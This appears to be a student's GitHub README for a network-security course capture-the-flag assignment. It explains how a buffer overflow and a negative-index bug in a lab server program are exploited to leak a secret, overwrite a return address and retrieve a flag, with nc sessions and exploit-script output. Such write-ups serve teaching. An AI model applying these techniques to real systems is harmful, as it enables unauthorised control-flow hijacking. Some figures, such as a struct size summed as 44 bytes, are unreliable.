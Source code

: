 # Buffer Overflow

This repository is the assignment in NCTU course "Network Security".

---
## Abstract

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows.
* Be able to identify and avoid buffer overflow vulnerabilities in native code.
* Understand the severity of buffer overflows and the necessity of standard defenses.
* Gain familiarity with machine architecture and assembly language.

---
## Description

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. We have provided source code, binary executable, and the assembly code. Try to find vulnerability in these files and exploit it to get the secret flag. There are two flags: `flag1` & `flag2`. If you get `flag1`, you will score 100, `flag2` is just the bonus flag. Have fun!

---
## Solutions

1. Before starting, we should try to use the serve and observe vulnerabilities
    ```
    # Connect to the server 140.113.194.66:8787
    $ nc 140.113.194.66 8787
    ----------------------
            NS
    ----------------------
    1. View info
    2. Edit info
    3. Exit
    ----------------------
    Your choice:
    ```
    * In the program `proj3.c`, the main function will call function `func`.
        * In the function `func`, the variable `ret_addr` will store the return address of its function. This could be a key point to attack this program.
        * In the function `func`, we can see there is a switch-case a while loop and the third of case is going to compare `ret_addr` with variables `magic1` and `magic2` to decide which function to return.
    * Observe with the program `proj3.asm`.
        * The variable `ret_addr` in the `proj3.c` is store at `ebp-0x88` (line 688).
        * Above the declaration of `ret_addr` in the `proj3.c`, there is a variable `secret` with struct type `SEC`, which size is 32 bytes due to the operation system is 32-bits in the memory stack.
        * To explain the above mentioned, the struct of `SEC` include an array `info` with 32 elements which is 32 Bytes. After converting to hexadecimal-based, the size will become `0x20` which is mapped to `ebp-0x64` (line 702).
        * After the array info in the struct `SEC`, there is a 4 bytes unsigned long variable called `secret` which is a random number. The only way to change the content of `secret` is in the while loop which is in the function func.
    * In the program `proj3.c`, the function `edit_note` with a pointer `s`  as parameter which type `STU` is a struct includes variable `name` (16 bytes), `note` (16 bytes), `stuid` (16 bytes), and `age` (4 bytes). The total sizes are 44 bytes.
        * In the program `proj3.asm`, we can observe that the memory stack pushes 88 bytes for two persons `s` started from `ebp-0x60`.
2. Start to attack by using buffer overflow
    * By using buffer overflow to attack the server, we need to find out the input place that can let us input some payload to make the returned address be wrong (e.g., we want to get the content of the variable `magic1`, so that we need to return to `magic1`’s address).
    * In the program `proj3.c`, the function `menu` is the place to input some payload.
        * After connecting to the server, we can choose `2` to enter the mode of edit info. Then, the server will ask to enter the `secret` and there exists a severe problem.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice: 2
            Please input secret first:
            ```
        * The problem is that the value of integer in C can be positive or negative value. By entering a negative value, we can get the content outside the array’s index.
        * The more important thing is that the `secret` is stored behind the array `s[0]`. So that we can get the content of `secret` by entering `-1` as id in the mode of view info.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit 
            ----------------------
            Your choice: 1
            Please input id: -1
            Name: 1

            Note:
            Age: 2928863094
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice:
            ```
        * The value shows after age is the `secret`’s value (`2928863094`) because the address of `secret` is `ebp-0x60`. which is the top 4 bytes before `s[0]` from above 44 bytes. Notice that the `secret`’s value is a random number.
3. Enter into the edited mode
    * After entering into the edited mode, we can enter the `secret`’s value (`2928863094`) and choose one user arbitrarily.

        ```
        # Connect to the server 140.113.194.66:8787
        $ nc 140.113.194.66 8787
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 1
        Please input id: -1
        Name: 1

        Note:
        Age: 2928863094
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 2
        Please input secret first: 2928863094
        Please input id: 1
        Input new note length:
        ```

    * In the program `proj3.c`, we found that we still cannot get the returned address we want if we only enter a positive integer less than 16 (line 124). Therefore, we enter `-1` because `-1` is a largest number in 2-based complement system so that we can trace back to the top of address in memory stack.
    * After entering `-1`, we are at the address of `note` in the struct `STU`. In that there is a variable name (16 bytes) before note, we can get the address of `note` from `s[0]` be `ebp-0x50`. Thus, we need to push 84 bytes ($5 \times 16 + 4 = 84$) to get the returned address.
4. Get the `flag1`
    * Finally, we found that `magic1` will cover the original address at `080489e0` so that we can get the `flag1` after choose `3` to exit. Notice that the address need to be written in format of little endian.
    ![](https://i.imgur.com/PDDjfHZ.png)

---
## File Description

* `proj3.c` - The program of server on `140.113.194.66:8787`
* `proj3.asm` - The assembly program of `proj3.c`
* `proj3.py` - The program using buffer overflow to attack
* `flag1.txt` - The content of `flag1`

---
## Execution

```bash
# Make sure your current directory is in "src/"
# Execute the main.py for hacking the cipher
$ python proj3.py
[+] Opening connection to 140.113.194.66 on port 8787: Done
2928863094
FLAG{G00D_J0b!}
[*] Closed connection to 140.113.194.66 port 8787

# Show the true plaintext
$ cat flag1.txt
FLAG{G00D_J0b!}
```

---
## Author

* [David Lu](https://github.com/yungshenglu)

---
## License

[GNU GENERAL PUBLIC LICENSE Version 3](LICENSE)

> This repository is the course assignment in NCTU course "Network Security 2018". If you are taking this course, please do not duplicate from this repository. All rights reserved.
